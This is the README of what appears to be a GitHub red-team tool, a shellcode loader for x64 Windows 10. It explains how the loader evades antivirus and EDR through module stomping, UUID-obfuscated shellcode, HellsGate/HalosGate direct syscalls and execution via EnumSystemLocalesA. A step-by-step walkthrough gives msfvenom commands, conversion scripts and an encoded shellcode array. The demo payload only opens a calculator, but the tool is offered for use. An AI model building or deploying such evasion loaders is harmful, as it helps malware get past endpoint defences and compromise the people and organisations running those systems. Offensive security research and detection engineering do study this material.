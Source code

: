 # Ninja UUID Shellcode Runner
Module Stomping, No New Thread, HellsGate syscaller, UUID Dropper for x64 Windows 10!

![](./ninja.jpg)

#### Created by [Bobby Cooke (@0xBoku)](https://twitter.com/0xBoku) with [Matt Kingstone(@n00bRage)](https://twitter.com/n00bRage)

## About
Shellcode is typically loaded into the `Heap` of the process, or the `VirtualAlloc()` API is used to reserve a private section of memory where the shellcode is then loaded too. Regardless of where the shellcode is in memory, that allocated memory must be marked executable for the shellcode to run. This is typically done by calling the `VirtualProtect()` API, after the shellcode has been written to memory, to change the allocated memory from `RW` (Read-Write) to `RX` (Read-Execute). `RX` sections within modules are common, such as the executable `.TEXT` section of the host process, and the executable `.TEXT` section of a Dynamically Loaded Library (DLL) which has been loaded into the memory of the process. Although, `RX` or `RWX` executable memory sections within the Heap and Privately allocated sections, not backed by a module are suspicious, and easier to detect. To evade this detection, Module Stomping can be used.

Module Stomping is where the malware will load a DLL into the processes memory using the `LoadLibrary()` API, change the permissions of the loaded libraries memory to `RW` (writable), overwrite the DLL memory with the shellcode, change the module-backed memory back to `RX` (executable), and then execute the shellcode from the DLL memory. When the memory is scanned, the shellcode will appear to be just the executable code from the loaded DLL. Therefor this may evade some AV/EDR dynamic memory scanners.

Sektor7 does a better job of explaining it, and I recommend you check out there courses if you'd like to dive deeper: [institute.sektor7.net](https://institute.sektor7.net/)

This dropper uses the Module Stomping technique described above, in combination with these techniques:
+ UUID Obfuscation of the shellcode payload. 
  + The UUID payload helps to decrease the shellcodes entropy, which can help evade some detection methods. 
  + This method also helps prevent some in-memory detections which flag on signatures.
+ Crawl the in-memory list of loaded modules to discover the base addresses of `ntdll.dll` and `kernel32.dll`.
+ Resolve `NTAPI` & `WINAPI` APIs by using a custom implementation of `GetProcAddress()` written in Assembly.
+ HellGate technique to resolve the Windows System Calls dynamically by reading the memory of `ntdll.dll`.
+ HalosGate technique to resolve the Windows System Calls if `ntdll.dll` is hooked by AV/EDR.
+ Direct Syscalls to changes the memory protection of the DLL which will host the shellcode.
+ "No New Thread" technique which uses `EnumSystemLocalesA()` to execute the UUID decoded shellcode.


## Walkthrough Example with MSF PopCalc
+ First you will need a raw binary file that contains your shellcode.
+ For this example we will use MetaSploit's MSFVenom to create a simple "Pop Calc" shellcode for x64 Windows 10.
  + This shellcode was created from a Kali Linux virtual machine. 
### MSFVenom PopCalc Shellcode Creation
```bash
┌──(bobby.cooke@0xBoku)-[~]
└─$ msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 276 bytes
Saved as: calc.bin
```

### Raw Shellcode File to UUIDs
+ Now that we have our raw shellcode file `calc.bin` we will use the `bin2uuid.py` python3 script to convert our shellcode into an array of UUIDs.
+ For large shellcodes, I recommend piping the output from the python script to a file. Then transfer the file over to your windows workstation where you will be compiling the dropper with windows Visual Studios.
```bash
┌──(bobby.cooke@0xBoku)-[~]
└─$ python3 bin2uuid.py calc.bin
    const char* uuids[] =
    {
        "e48348fc-e8f0-00c0-0000-415141505251",
        "d2314856-4865-528b-6048-8b5218488b52",
        "728b4820-4850-b70f-4a4a-4d31c94831c0",
        "7c613cac-2c02-4120-c1c9-0d4101c1e2ed",
        "48514152-528b-8b20-423c-4801d08b8088",
        "48000000-c085-6774-4801-d0508b481844",
        "4920408b-d001-56e3-48ff-c9418b348848",
        "314dd601-48c9-c031-ac41-c1c90d4101c1",
        "f175e038-034c-244c-0845-39d175d85844",
        "4924408b-d001-4166-8b0c-48448b401c49",
        "8b41d001-8804-0148-d041-5841585e595a",
        "59415841-5a41-8348-ec20-4152ffe05841",
        "8b485a59-e912-ff57-ffff-5d48ba010000",
        "00000000-4800-8d8d-0101-000041ba318b",
        "d5ff876f-f0bb-a2b5-5641-baa695bd9dff",
        "c48348d5-3c28-7c06-0a80-fbe07505bb47",
        "6a6f7213-5900-8941-daff-d563616c632e",
        "00657865-9090-9090-9090-909090909090"
    };
```

### Copy UUID Shellcode to `main.c`
+ Copy the array of UUIDs to your windows workstation either via the copy-paste buffer or a file.
+ Open this project in Microsoft Visual Studios.
+ Within the `main.c` file, replace the `uuids[]` array with your array of UUIDs.

### Optionally Change Sacraficial DLL
+ You may optionally change the sacraficial DLL that has its `RX` section module stomped by our shellcode by changing the `sLib[]` array to a name of a different DLL.
+ Make sure that the DLL is large enough to hold your shellcode or else you may end up overwriting a neighbor DLL in memory of the process.
+  Use the `string2array.py` python script to convert the DLL name into an array of chars. 
  +  Alternatively just use a typical string method since we are not creating a Beacon Object File (BOF) or shellcode.
```bash
┌──(bobby.cooke@0xBoku)-[~]
└─$ python3 string2array.py sLib mshtml.dll
CHAR sLib[] = {'m','s','h','t','m','l','.','d','l','l',0};
```
+ Replace the `CHAR sLib[]` array in `main.c` with the newly generated one.

### Compile with Visual Studios
+ Once you have made your changes, compile the EXE with Visual Studios
+ If you are using the example provided, a calculator should popup when you press the green play button within Visual Studios.

## Credits / References
+ [Stephan Borosh (rvrsh3ll|@424f424f)](https://twitter.com/424f424f) & [Matt Kingstone](https://twitter.com/n00bRage) for showing me the awesome UUID shellcode loading technique.
+ [ajpc500/binToUUIDs.py](https://gist.github.com/ajpc500/a9695eca6a660d1fb5ec30a2e356f33e)
+ [Secure Hat - Shellcode Execution via EnumSystemLocalA](https://blog.securehat.co.uk/process-injection/shellcode-execution-via-enumsystemlocala)
### Implementing ASM in Visual Studio C Projects
+ [bs - Implementing Syscalls In The Cobaltstrike Artifact Kit](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/)
### HalosGate SysCaller
+ [Reenz0h from @SEKTOR7net](https://twitter.com/SEKTOR7net)
  + Most of the C techniques I use are from [Reenz0h's awesome Sektor7 courses](https://institute.sektor7.net/) & blogs 
  + [Sektor7 HalosGate Blog](https://blog.sektor7.net/#!res/2021/halosgate.md)
### HellsGate Syscaller
+ [@smelly__vx](https://twitter.com/smelly__vx) & [@am0nsec](https://twitter.com/am0nsec) ( Creators/Publishers of the Hells Gate technique )
  + [HellsGate Github Repo](https://github.com/am0nsec/HellsGate)
  + Link to the [Hell's Gate paper: https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf](https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf)
### Great Resource for learning Intel ASM - [Vivek Ramachandran (@vivekramac)](https://twitter.com/vivekramac)
+ [Pentester Academy - SLAE64](https://www.pentesteracademy.com/course?id=7)

## Other Projects/References that use the UUID Shellcode Loading Technique
+ [byt3bl33d3r/OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim/blob/2cb5f8b4691ee430fbfad084d3cb863a0ca2f0b7/src/uuid_exec_bin.nim)
+ https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/
+ https://blog.sunggwanchoi.com/eng-uuid-shellcode-execution/
+ https://gist.github.com/rxwx/c5e0e5bba8c272eb6daa587115ae0014#file-uuid-c
+ [Adepts of 0xCC - One thousand and one ways to copy your shellcode to memory (VBA Macros)](https://adepts.of0x.cc/alternatives-copy-shellcode/)
